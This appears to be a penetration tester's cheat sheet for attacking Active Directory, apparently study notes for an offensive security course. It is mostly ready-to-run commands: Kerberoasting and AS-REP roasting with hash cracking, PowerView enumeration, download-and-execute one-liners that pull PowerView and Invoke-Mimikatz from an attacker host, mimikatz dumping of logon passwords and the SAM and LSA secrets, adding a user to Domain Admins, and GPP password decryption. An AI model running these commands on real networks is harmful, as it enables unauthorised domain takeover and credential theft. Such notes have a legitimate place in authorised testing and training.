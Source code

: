 # Methodology

## Enumeration

### Kali Commands

```bash
# Kerberoast
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER:$PASS
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER -hashes ':$NTLM'
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force

# AS-REP roast
impacket-GetNPUsers -request -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/$USER
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

With valid credentials for a domain user, we can first enumerate the domain remotely with [PowerView.py](https://github.com/aniqfakhrul/powerview.py)

**Note:** This can miss custome attributes compared to running PowerView locally

```bash
# Connect
powerview --dc-ip $IP $DOMAIN/$USER:$PASS@$IP
powerview --dc-ip $IP $DOMAIN/$USER@$IP -H ':$NTLM'

# Identify DC
Get-NetDomain

# Enumerate user objects
Get-NetUser -Select samaccountname
Get-NetUser -Properties samaccountname,description,memberof -TableView
Get-NetUser $USER
Get-NetGroup -Where 'member contains $USER' -Select cn

# Enumerate group objects
Get-NetGroup -Properties cn,member -TableView
Get-NetGroup $GROUP

# Enumerate Computer objects
Get-NetComputer -Properties dnshostname,operatingsystem,operatingsystemversion -TableView

# Check for logged-in users (DOES NOT WORK CURRENTLY, RUN LOCALLY)
Get-NetSession -Computer $COMPUTER

# Find hosts on the local domain where the current user has local administrator access (DOES NOT WORK CURRENTLY, RUN LOCALLY)
Find-LocalAdminAccess

# Enumerate SPNs linked to users
Get-NetUser -SPN -Properties samaccountname,serviceprincipalname -TableView

# Retrieve the ACL for the specified object (DOES NOT WORK CURRENTLY, RUN LOCALLY)
Get-ObjectAcl -Identity $OBJECT -Select SecurityIdentifier,ActiveDirectoryRights -TableView
Get-ObjectAcl -Identity $OBJECT -Where 'ActiveDirectoryRights eq GenericAll' -Select SecurityIdentifier,ActiveDirectoryRights -TableView

# Enumerate domain shares (DOES NOT EXIST CURRENTLY, RUN LOCALLY)
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

### Local Access

Once we have local access, we can run **[BloodHound](0%20Tools/BloodHound.md)**

**PowerView**

```powershell
# Import PowerView
iex(new-object net.webclient).downloadstring("http://$OUR_IP/PowerView.ps1")

# Idenfity DC (check Pdc)
Get-NetDomain

# Enumerate user objects
Get-NetUser | select samaccountname,description,memberof
Get-NetUser $USER

# Enumerate group objects
Get-NetGroup | select cn,member
Get-NetGroup $GROUP | select cn,member
Get-NetGroup -UserName $USER | select cn

# Enumerate Computer objects
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

# Check for logged-in users
Get-NetSession -Computer $COMPUTER

# Find hosts on the local domain where the current user has local administrator access
Find-LocalAdminAccess

# Enumerate SPNs linked to users
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# Retrieve the ACLs for the specified object
Get-ObjectAcl -Identity $OBJECT | select SecurityIdentifier,ActiveDirectoryRights
ConvertFrom-SID $SID
Get-ObjectAcl -Identity $OBJECT | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"$SID","$SID" | ConvertFrom-SID

# Enumerate domain shares
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

**Manual**

```powershell
# Print users within the current domain
net user /domain

# Check domain user information
net user offsec /domain

# Check domain groups
net group /domain
net group "$GROUP" /domain

# Add and remove "setphanie" from "Management Department"
net group "Domain Admins" mojo /add /domain
net group "Enterprise Admins" mojo /add /domain
```

### Tools

**[Mimikatz](0%20Tools/Local/Mimikatz.md)**

[Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

```bash
# Invoke mimikatz
.\mimikatz.exe
iex(new-object net.webclient).downloadstring("http://$OUR_IP/Invoke-Mimikatz.ps1")

privilege::debug
token::elevate
log
sekurlsa::logonpasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
token::revert
exit
```

**[gpp-decrypt](0%20Tools/gpp-decrypt.md)**

Decrypts GPP credentials. Typically found in files like `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml`, and `Drives.xml`.

Key things to look for:

- **File Location:** GPP files are usually found in the `SYSVOL` folder on a domain controller, under the path `\\[DOMAIN]\SYSVOL\[DOMAIN]\Policies\`.
- **cpassword Attribute:** Within these XML files, look for the `cpassword` attribute. This attribute holds the encrypted form of the password.
- **XML Structure:** The structure of the XML file can give you a hint. For example, in a `Groups.xml` file, you might see something like:

```xml
<Group ...>
  <Properties ... cpassword="EDUYJgCbgCAmO5E..." ... />
</Group>
```

Decrypt with:

```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

**[Rubeus](0%20Tools/Local/Rubeus.md)**

Crack associated hashes in hashcat

```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
